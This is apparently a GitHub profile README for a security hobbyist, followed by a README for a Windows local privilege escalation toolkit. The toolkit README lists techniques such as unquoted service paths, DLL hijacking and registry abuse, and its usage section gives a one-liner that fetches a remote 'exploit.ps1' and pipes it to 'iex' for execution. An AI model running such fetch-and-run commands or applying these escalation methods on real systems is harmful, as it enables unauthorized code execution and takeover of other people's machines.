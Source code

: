 <h1 align="left">Hey 👋 What's up?</h1>

###

<p align="left">Hello my name is Abbas Aghayev but internet knows me as d3hack. Can be d3hvck or d3hxck. If you can help me on anything, please do it. Love to share and work together with any professional.</p>

###

<h2 align="left">About me</h2>

###

<p align="left">✨ Im hacking Windows since 2011<br>📚 I'm currently learning AD DC and Advanced Penetration Testing Methods<br>🎯 Goals: Being HEAD OF CYBERSECURITY DIVISION<br>🎲 Fun fact: Do not trust any code on internet</p>

###

<h2 align="left">I work with</h2>

###

<div align="left">
  <img src="https://skillicons.dev/icons?i=powershell" height="40" alt="powershell logo"  />
  <img width="12" />
  <img src="https://cdn.simpleicons.org/c++/00599C" height="40" alt="cplusplus logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/c/c-original.svg" height="40" alt="c logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/vscode/vscode-original.svg" height="40" alt="vscode logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/python/python-original.svg" height="40" alt="python logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/windows8/windows8-original.svg" height="40" alt="windows8 logo"  />
</div>

###

<img align="left" height="400" src="https://raw.githubusercontent.com/d3hvck/WinPrivEsc/refs/heads/main/WindowsExploited.webp"  />

###

<div align="center">
  <img src="https://profile-counter.glitch.me/d3hvck/count.svg?"  />
</div>

###

<div align="center">
  <img src="https://github-read-medium-git-main.pahlevikun.vercel.app/latest?limit=4&username=@aghayev2a" alt="Layout with last medium posts"  />
</div>

###


# Windows Local Privilege Escalation

This tools is developed, tested and refined by "d3hack"
Like Uncle Ben said, "With great power comes great responsibility." But in our case...
💀 With great shell access comes absolute domination. 💀

Tested on win11 pro

Chck = Checker

Dlvr = Delivery Method

Enum = Enumeration

Exp = Exploit

Sec = Security or Audit Tools


Primary focused to escalate privileges: 

    - DLL Hijacking [+]

    - Service binPath [+]
    
    - Service UnquotedPathSvc [+]
    
    - Service Registry [+]
    
    - Service ExecFile  [+]

    - Registry Autorun [+]
    
    - Registry AlwaysInstallelevated [+] 

    - TrustedInstaller
    
    - Password Mining (Memory/Registry/Config File)

    - Scheduled Task [+]
    
    - Startup Application [+]

## Authors

- [d3hack @ LinkedIn ](https://linkedin.com/in/aghayev2a)

- [d3hvck @ Github  ](https://github.com/d3hvck)

## Usage

For extremely accuracy please run every scripts one by one 

```bash
  irm https://githubrawfilelink.com/blablabla/exploit.ps1 | iex 
```

```bash
  <> operator
  - dash
  / shash
  \ revers-shlash
  = equal
  $ val / def
  ' quot
  " double quot
```

Absolute Path in quotes:

 "C:\Program Files\Vuln Service\DLL.exe"

Relative Path
Windows
cmd.exe

Vuln Service Looks Like:

 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln.exe Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service.exe x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 